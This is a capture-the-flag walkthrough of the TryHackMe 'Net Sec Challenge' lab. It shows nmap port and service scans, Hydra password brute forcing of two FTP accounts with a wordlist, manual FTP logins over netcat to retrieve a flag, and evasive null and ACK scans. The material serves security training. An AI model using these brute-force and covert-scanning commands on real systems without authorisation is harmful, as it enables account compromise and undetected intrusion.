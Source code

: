 # Net Sec Challenge

* **author**:: Nathan Acks
* **date**:: 2022-04-03

This CTF is just a series of questions. All should be solvable using nmap, telnet, and Hydra… Though I'm going to substitute netcat for telnet. However, I'm sticking to the spirit of things, and will only use those three tools.

The target machine is 10.10.152.115.

We'll start off with a full nmap scan:

```bash
sudo nmap -v -oN net-sec-challenge -Pn -A --reason -T4 \
          -p- 10.10.152.115
```

Results:

```
# Nmap 7.92 scan initiated Sun Apr  3 20:48:04 2022 as: nmap -v -oN net-sec-challenge -Pn -A --reason -T4 -p- 10.10.152.115
Increasing send delay for 10.10.152.115 from 0 to 5 due to 909 out of 2271 dropped probes since last increase.
Increasing send delay for 10.10.152.115 from 5 to 10 due to 11 out of 15 dropped probes since last increase.
Nmap scan report for 10.10.152.115
Host is up, received user-set (0.19s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     REASON         VERSION
22/tcp    open  ssh         syn-ack ttl 61 (protocol 2.0)
| ssh-hostkey: 
|   3072 da:5f:69:e2:11:1f:7c:66:80:89:61:54:e8:7b:16:f3 (RSA)
|   256 3f:8c:09:46:ab:1c:df:d7:35:83:cf:6d:6e:17:7e:1c (ECDSA)
|_  256 ed:a9:3a:aa:4c:6b:16:e6:0d:43:75:46:fb:33:b2:29 (ED25519)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
80/tcp    open  http        syn-ack ttl 61 lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Hello, world!
139/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.6.2
445/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.6.2
8080/tcp  open  http        syn-ack ttl 61 Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
10021/tcp open  ftp         syn-ack ttl 61 vsftpd 3.0.3
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.92%I=7%D=4/3%Time=624A60E5%P=x86_64-pc-linux-gnu%r(NULL,
SF:29,"SSH-2\.0-OpenSSH_8\.2p1 THM{946219583339}
");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/3%OT=22%CT=1%CU=32245%PV=Y%DS=4%DC=T%G=Y%TM=624A6111
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Uptime guess: 12.801 days (since Tue Mar 22 01:54:39 2022)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Unix

Host script results:
|_clock-skew: -1s
| nbstat: NetBIOS name: NETSEC-CHALLENG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   NETSEC-CHALLENG<00>  Flags: <unique><active>
|   NETSEC-CHALLENG<03>  Flags: <unique><active>
|   NETSEC-CHALLENG<20>  Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb2-time: 
|   date: 2022-04-04T03:07:53
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   47.27 ms  10.13.0.1
2   ... 3
4   222.58 ms 10.10.152.115

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr  3 21:08:01 2022 -- 1 IP address (1 host up) scanned in 1197.32 seconds
```

This enables us to answer a set of questions immediately.

> What is the highest port number being open less than 10,000? - 8080
>
> There is an open port outside the common 1000 ports; it is above 10,000. What is it? - 10021
>
> How many TCP ports are open? - 6
>
> What is the flag hidden in the HTTP server header? - THM{web_server_25352}
>
> What is the flag hidden in the SSH server header? - THM{946219583339}
>
> We have an FTP server listening on a nonstandard port. What is the version of the FTP server? - vsftpd 3.0.3

That's all pretty easy. The next one is a bit harder with our limited toolset…

We start off by attempting to brute force the password for `eddie` or `quinn` using Hydra. To do this, we're going to run two Hydra tasks in parallel.

```bash
# Hydra task to break eddie's password.
#
hydra -v -f -t 10 -s 10021 -l eddie \
      -P ~/.local/share/red-team/wordlists/rockyou.txt \
         10.10.152.115 ftp

# Hydra task to break quinn's password.
#
hydra -v -f -t 10 -s 10021 -l quinn \
      -P ~/.local/share/red-team/wordlists/rockyou.txt \
         10.10.152.115 ftp
```

These quickly return the results `eddie:jordan` and `quinn:andrea`. Let's try to use `nc -nv 10.10.152.115 10021` to log into `eddie`'s account.

```ftp
(UNKNOWN) [10.10.152.115] 10021 (?) open
220 (vsFTPd 3.0.3)
USER eddie
331 Please specify the password.
PASS jordan
230 Login successful.
425 Use PORT or PASV first.
PASV
227 Entering Passive Mode (10,10,152,115,119,101).
LIST
150 Here comes the directory listing.
226 Directory send OK.
QUIT
221 Goodbye.
```

The trick here is that the passive mode response returns (o1,o2,o3,o4,p1,p2), where o1 - o4 are the four octets of the server's IP address (10.10.152.115), and p1 - p2 are the high + low bytes of the port number to connect to, (256 × p1) + p2. Thus, after entering passive mode we can catch the reply using a second netcat instance, `nc -nv 10.10.152.115 30565`. We start this *before* entering the LIST command, revealing that `eddie` has access to no files.

Let's have the same conversation for `quinn`.

```ftp
(UNKNOWN) [10.10.152.115] 10021 (?) open
220 (vsFTPd 3.0.3)
USER quinn
331 Please specify the password.
PASS andrea
230 Login successful.
PASV
227 Entering Passive Mode (10,10,152,115,120,34).
LIST
150 Here comes the directory listing.
226 Directory send OK.
PASV
227 Entering Passive Mode (10,10,152,115,117,85).
RETR ftp_flag.txt
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
226 Transfer complete.
QUIT
221 Goodbye.
```

This time we need to open *two* auxiliary netcat sessions. The first, `nc -nv 10.10.152.115 30754`, catches the LIST command, which reveals that `quinn` has access to an `ftp_flag.txt` file. The second, `nc -nv 10.10.152.115 30037`, catches the contents of that file after issuing the RETR command. This is the answer to our penultimate challenge.

> We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP? - THM{321452667098}

For the final challenge, we go to `http://10.10.152.115:8080`. The challenge is to scan 10.10.152.115 "as covertly as possible". I'm not really willing to wait 7 months for a scan, but I'll bet that all we need to do is use `-T1` and drop `-A`.

```bash
sudo nmap -v -Pn -n -T1 -p- 10.10.152.115
```

Well, that didn't work - "71% chance of scan being detected" and we're nowhere near done. That, and the machine expired without me even noticing.

New target IP is 10.10.34.244.

Maybe speed doesn't matter here? Let's try a scan that shouldn't even look like a connection - an ACK scan - but at a more "normal" rate.

```bash
sudo nmap -v -Pn -n -T4 -sA -p- 10.10.34.244
```

Well, that resulted in an almost immediate flag. Switching to `-T2` for the timing here also incremented things quite quickly.

What about a null scan? That might actually get me more information than an ACK scan, but should elicit *any* response from open ports.

```bash
sudo nmap -v -Pn -n -T4 -sN -p- 10.10.34.244
```

"Null scan" is apparently the right answer, as the challenge provided the flag almost immediately (which doesn't *actually* make any sense, but whatever…).

> Browsing to http://10.10.152.115:8080 displays a small challenge that will give you a flag once you solve it. What is the flag? - THM{f7443f99}

* [Using "nmap"](nmap.md)
* [Using Hydra](hydra.md)
* [Using "netcat"](netcat.md)
* [File Transfer Protocol (FTP)](ftp.md)
* [How to list FTP directories using telnet?](https://stackoverflow.com/questions/50324402/how-to-list-ftp-directories-using-telnet#comment126707507_50324402)
* [FTP Commands: QUIT, USER, ABOR, ACCT, SYST, XDEL](https://www.serv-u.com/resource/tutorial/quit-user-abor-acct-syst-xdel-ftp-command)
* [FTP Commands: APPE, MLSD, MLST, LIST, RETR, STOR, STOU](https://www.serv-u.com/resource/tutorial/appe-stor-stou-retr-list-mlsd-mlst-ftp-command)

ELAPSED TIME: 2 h 31 min

## References

* [TryHackMe: Net Sec Challenge](https://tryhackme.com/room/netsecchallenge)
